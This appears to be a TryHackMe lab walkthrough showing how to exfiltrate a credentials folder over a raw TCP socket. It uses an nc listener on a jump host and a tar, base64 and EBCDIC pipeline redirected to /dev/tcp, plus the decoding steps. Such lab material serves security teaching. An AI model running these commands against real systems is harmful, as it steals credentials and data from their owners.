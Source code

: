 # Exfiltration using TCP socket

Using the TCP socket is one of the data exfiltration techniques that can be used in a non-secured environment 
where there are no network-based security products (to speak of, as far as we know). This kind of exfiltration 
is easy to detect because it relies on non-standard protocols. One of the benefits of this technique is that it 
encodes the data during transmission and makes it harder to examine.

`ssh` into the jump host:

    ssh thm@<IP jumphost>

Use the `nc` command to receive data on port 8080, store the data in the `/tmp/` directory and name it 
`task4-creds.data`:

    thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data

Move on to the victim machine that contains the data (thm:tryhackme):

    thm@jump-box$ ssh thm@victim1.thm.com

Check the `creds.txt` file on the victim machine:

    thm@victim1:~$ cat task4/creds.txt

Exfiltrate data over TCP Socket:

    thm@victim1:$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080

* `tar zcf` - create a new archive file, using gzip to compress the selected folder.
* `base64` - encode the new compressed archive.
* `dd conv=ebcdic` - create and copy a backup file from it, using EBCDIC encoding.
* `> /dev/tcp/192.168.0.133/8080` - redirect the output to transfer it using the TCP socket on the specified IP and 
port.

Check the received data on the jumphost: 

    thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data
    Listening on [0.0.0.0] (family 0, port 8080)
    Connection from 192.168.0.101 received!
    
    thm@jump-box$ ls -l /tmp/
    -rw-r--r-- 1 root root       240 Apr  8 11:37 task4-creds.data

Convert the received data back to its original state:

    thm@jump-box$ cd /tmp/
    thm@jump-box:/tmp/$ dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar

Unarchive `task4-creds.tar`:

    thm@jump-box$ tar xvf task4-creds.tar

Confirm the received data:
			
    thm@jump-box$ cat task4/creds.txt